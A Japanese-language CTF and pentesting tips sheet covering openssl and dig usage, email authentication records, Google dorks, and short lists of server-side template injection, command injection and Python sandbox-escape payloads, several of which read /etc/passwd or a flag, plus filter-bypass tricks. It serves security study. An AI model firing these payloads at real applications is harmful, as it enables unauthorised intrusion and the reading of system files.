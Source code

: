 # tips

## RSA

秘密鍵の中身を見る

```
openssl rsa -in <private-key.pem> -text -noout
```

公開鍵の中身を見る

```
openssl rsa -pubin -in <public-key.pem> -text -noout
```

## DNS

dig

```
dig <example.com> IN
dig <example.com> ANY
dig <example.com> TXT
```

## Phishing

- MX (Mail exchange record)
- SPF (Sender Policy Framework)
- DKIM (DomainKeys Identified Mail)
- DMARC (Domain-based Message Authentication, Reporting and Conformance)

## OSINT

- Google Dorks: https://www.exploit-db.com/google-hacking-database

  - ext: `ext:(doc | pdf | xls | txt)`
  - filetype: `filetype:log`
  - intext: `intext:"Control Panel"`
  - intitle: `intitle:"Manager"`
  - inurl: `inurl:index.php`
  - site: `site:ftp.*.*.*`

## SSTI

**Server Side Template Injection**

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

Jinja2

```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

## SQLi

**SQL Injection**

- LIKE: `%`, `*`

## Command Injection

**Unix Payloads**

```
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;
;netstat -a;
;system('cat%20/etc/passwd')
|id
\n/bin/ls -al\n
a);id
%0Acat%20/etc/passwd
& ping -i 30 127.0.0.1 &
<?php system("cat /etc/passwd");?>
```

**Windows Payloads**

```
'
'"
"
"'
%0a
%0a%0d
eval('ls')
exec('ls')
system('ls')
| sleep 1
; sleep 1
& sleep 1
&& sleep 1`
```

Links:

- https://github.com/payloadbox/command-injection-payload-list

**Payloads with Python**

```
a=().__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']
a('os').popen('cat flag').read()
```

Bypass:

- to Hex: `(` => `\\x28`
- to Octal: `(` => `\50`

## Databases

- Default Passwords: https://cirt.net/passwords
- Exploit: https://www.exploit-db.com/

## Shodan:

- https://exploits.shodan.io/welcome

## Sites

- requestbin: https://requestbin.com/
